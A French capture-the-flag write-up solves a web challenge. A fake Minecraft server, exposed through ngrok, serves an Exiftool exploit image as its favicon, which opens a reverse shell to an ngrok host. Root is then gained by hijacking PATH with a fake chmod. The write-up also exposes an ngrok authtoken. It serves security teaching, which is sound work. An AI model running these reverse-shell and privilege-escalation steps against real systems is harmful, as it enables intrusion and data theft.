 Old School Markus
======================

On peut contacter un serveur minecaft pour obtenir ses informations.

On peut voir un paramètre caché dans a le formulaire : debug=debug_for_admin_20983rujf2j1i2

Si on l'ajoute on peut voir dans le code html : 

.. code-block:: console

    <!-- Exiftool Version: 12.23, Taille du fichier: 4672 -->


On va donc créer un faux serveur minecraft via python, et l'exposé avec ngrok. 

On demande a GPT un script de base : 

.. code-block:: python 

    import socket
    import struct
    import json

    # Configuration du serveur
    HOST = '0.0.0.0'
    PORT = 25565

    # Réponse JSON simulée
    status_response = json.dumps({
        "version": {
            "name": "1.20.1",
            "protocol": 763
        },
        "players": {
            "max": 100,
            "online": 5,
            "sample": [
                {"name": "Alice", "id": "UUID-ALICE"},
                {"name": "Bob", "id": "UUID-BOB"}
            ]
        },
        "description": {
            "text": "§aServeur factice pour test"
        },
        "favicon": ""  # Icône optionnelle
    })


    def read_varint(s):
        """ Lit un varint depuis un socket """
        number = 0
        for i in range(5):
            byte = s.recv(1)
            if not byte:
                return 0
            byte = ord(byte)
            number |= (byte & 0x7F) << 7 * i
            if not byte & 0x80:
                break
        return number


    def write_varint(value):
        """ Encode un entier en varint (Minecraft) """
        result = b''
        while True:
            temp = value & 0x7F
            value >>= 7
            if value != 0:
                temp |= 0x80
            result += struct.pack('B', temp)
            if value == 0:
                break
        return result


    def handle_client(conn):
        try:
            # Lire le paquet de handshake
            packet_length = read_varint(conn)
            _ = conn.recv(packet_length)

            # Lire le paquet de status request
            _ = read_varint(conn)
            _ = conn.recv(1)  # Type 0x00: Request

            # Construction de la réponse JSON
            json_data = status_response.encode('utf-8')
            response_data = write_varint(len(json_data)) + json_data

            # Enveloppe dans un paquet Minecraft (type 0x00)
            packet = b'\x00' + response_data
            packet = write_varint(len(packet)) + packet

            conn.sendall(packet)

            # Optionnel : gestion du ping (paquet 0x01)
            ping_packet_len = read_varint(conn)
            if ping_packet_len:
                ping_packet = conn.recv(ping_packet_len)
                conn.sendall(write_varint(len(ping_packet) + 1) + b'\x01' + ping_packet)
        except Exception as e:
            print(f"Erreur : {e}")
        finally:
            conn.close()


    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((HOST, PORT))
        s.listen()
        print(f"Fake Minecraft Server en écoute sur {PORT}")
        while True:
            conn, addr = s.accept()
            print(f"Connexion de {addr}")
        handle_client(conn)


On récupère ensuite les informations via : http://57.128.112.118:11819/?server=7.tcp.eu.ngrok.io&port=16193 

On fait un faux serveur minecraft (merci GPT). 

La description doit contenir "CINEMA" et/ou "CANNES"

.. code-block:: python 

    "description": {
        "text": "CINEMA Cinema Cannes CANNES"
    }

Il doit y avoir 1 000 000 d'utilisateure online : 

.. code-block:: console

    "online": 1000000,

On voit maintenant les informations apparaître sur le site : 


.. code-block:: console 

    CINEMA Cinema Cannes CANNES§r

    Version : 1.20.1

    Joueurs : 1000000/100

    PAS DE FAVICON


On peut égalemenet charger une image : 

.. code-block:: console

     "favicon": "https://cdn.beeceptor.com/assets/images/logo-beeceptor-white-bg.svg" 


Il y a surement un exploit avec exiftool a réaliser. 

On a trouver cet exploit : https://www.exploit-db.com/exploits/50911 

On va l'utiliser avec cette commande pour faire un reverse shell : 

.. code-block:: console

    python3 50911.py -s 7.tcp.eu.ngrok.io 16445

Cela créé un fichier image.jpg prêt a l'emploi pour notre reverse shell

On modifie notre configuration ngrok pour forward 2 ports, un pour le serveur minecraft et un pour le reverse shell 

.. code-block:: console

    cat ~/.config/ngrok/ngrok.yml
    version: "3"
    agent:
        authtoken: 2gvnbz1Bfx5GS8wq8s15z12Pop8_2DPyVX1fYgbKZtpyx1pYk
    tunnels:
    first:
        addr: 25565
        proto: tcp
    second:
        addr: 1234
        proto: tcp

Et on lance ngrok avec "ngrok start --all"

Le code finale du serveur Minecraft : 

.. code-block:: python

    import socket
    import struct
    import json,base64

    # Configuration du serveur
    HOST = '0.0.0.0'
    PORT = 25565

    def load_favicon():
        try:
            with open("image.jpg", "rb") as f:
                encoded = base64.b64encode(f.read()).decode("utf-8")
                return f"data:image/png;base64,{encoded}"
        except FileNotFoundError:
            print("[WARN] favicon.png introuvable. Aucun favicon ne sera envoyé.")
            return ""

    favicon_data = load_favicon()

    # Réponse JSON simulée
    status_response = json.dumps({
        "version": {
            "name": "1.20.1",
            "protocol": 763
        },
        "players": {
            "max": 100,
            "online": 1000000,
            "sample": [
                {"name": "Alice", "id": "UUID-ALICE"},
                {"name": "Bob", "id": "UUID-BOB"}
            ]
        },
        "description": {
            "text": "CINEMA Cinema Cannes CANNES"
        },
        "favicon": favicon_data # Icône optionnelle
    })


    def read_varint(s):
        """ Lit un varint depuis un socket """
        number = 0
        for i in range(5):
            byte = s.recv(1)
            if not byte:
                return 0
            byte = ord(byte)
            number |= (byte & 0x7F) << 7 * i
            if not byte & 0x80:
                break
        return number


    def write_varint(value):
        """ Encode un entier en varint (Minecraft) """
        result = b''
        while True:
            temp = value & 0x7F
            value >>= 7
            if value != 0:
                temp |= 0x80
            result += struct.pack('B', temp)
            if value == 0:
                break
        return result


    def handle_client(conn):
        try:
            # Lire le paquet de handshake
            packet_length = read_varint(conn)
            _ = conn.recv(packet_length)

            # Lire le paquet de status request
            _ = read_varint(conn)
            _ = conn.recv(1)  # Type 0x00: Request

            # Construction de la réponse JSON
            json_data = status_response.encode('utf-8')
            response_data = write_varint(len(json_data)) + json_data

            # Enveloppe dans un paquet Minecraft (type 0x00)
            packet = b'\x00' + response_data
            packet = write_varint(len(packet)) + packet

            conn.sendall(packet)

            # Optionnel : gestion du ping (paquet 0x01)
            ping_packet_len = read_varint(conn)
            if ping_packet_len:
                ping_packet = conn.recv(ping_packet_len)
                conn.sendall(write_varint(len(ping_packet) + 1) + b'\x01' + ping_packet)
        except Exception as e:
            print(f"Erreur : {e}")
        finally:
            conn.close()


    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((HOST, PORT))
        s.listen()
        print(f"Fake Minecraft Server en écoute sur {PORT}")
        while True:
            conn, addr = s.accept()
            print(f"Connexion de {addr}")
            handle_client(conn)


Ensuite on lance cette requête sur le serveur : 

.. code-block:: console

    GET /?server=2.tcp.eu.ngrok.io&port=19&debug=debug_for_admin_20983rujf2j1i2 HTTP/1.1
    Host: 57.128.112.118:11266
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    X-PwnFox-Color: red
    Priority: u=0, ir

On obtient alors notre reverse shell ! 

On commence avec cette commande pour avoir un vrai bash : 

.. code-block:: console

    python -c 'import pty; pty.spawn("/bin/bash")'

On regarde la liste des fichiers, il y a bien un fichier flag.txt mais qui n'est pas lisible directement, pas les droits, seulement root, il faut donc privesc.

Il y a un binaire fix_permissions qui donne ceci : 

.. code-block:: console

    ./fix_permissions
    [*] Fixing permissions for files in /app/images 
    [*] Running as UID: 0
    [*] Command: chmod 400 *

On peut utiliser le PATH pour modifier le binaire "chmod" et forcer l'utilisation de notre chmod plutôt que l'originale : 

.. code-block:: console

    echo -e '#!/bin/bash\nid > /tmp/root_shell' > /tmp/chmod
    chmod +x /tmp/chmod
    export PATH=/tmp:$PATH
    ./fix_permissions
    cat /tmp/root_shell : uid=0(root) gid=0(root) groups=0(root),1000(flaskuser)

On modifie donc notre payload pour lire le flag : 

.. code-block:: console

    echo -e '#!/bin/bash\ncat /app/flag.txt > /tmp/root_shell' > /tmp/chmod

On obtient alors notre flag dans le fichier /tmp/root_shell : **SHLK{O!d_Sch0Ol_Guy_Ho1ds_Olds_V3rsions}**




